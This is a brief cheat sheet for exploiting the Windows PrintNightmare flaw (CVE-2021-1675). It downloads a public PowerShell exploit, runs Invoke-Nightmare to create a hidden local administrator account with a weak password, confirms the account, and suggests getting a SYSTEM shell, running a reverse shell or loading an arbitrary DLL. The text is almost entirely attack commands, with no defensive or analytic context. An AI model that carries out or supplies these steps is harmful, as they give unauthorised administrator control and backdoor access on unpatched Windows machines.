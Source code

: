# CVE-2021-1675 

Project https://github.com/calebstewart/CVE-2021-1675

`wget https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1`

`curl https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1 -o CVE-2021-1675.ps1`

In Powershell,

`Import-Module .\ CVE-2021-1675.ps1`

Create a new admin user

`Invoke-Nightmare -NewUser "<username to create >" -NewPassword <password for that new user> DriverName "PrintMe"`
  
`Invoke-Nightmare -NewUser "hacker" -NewPassword "password1234" DriverName "PrintMe"`

Check if user was added

`net localgroup administrators`

Run powershell as SYSTEM

`runas /user:hacker powershell.exe`
 
 or reverse shell
 
`runas /user:hacker shell.exe`

 or invoke dll
 
`Invoke-Nightmare -DLL "C:\absolute\path\to\your\shell.dll"`
  
https://www.hackercoolmagazine.com/printnightmare-privilege-escalation-with-powershell/
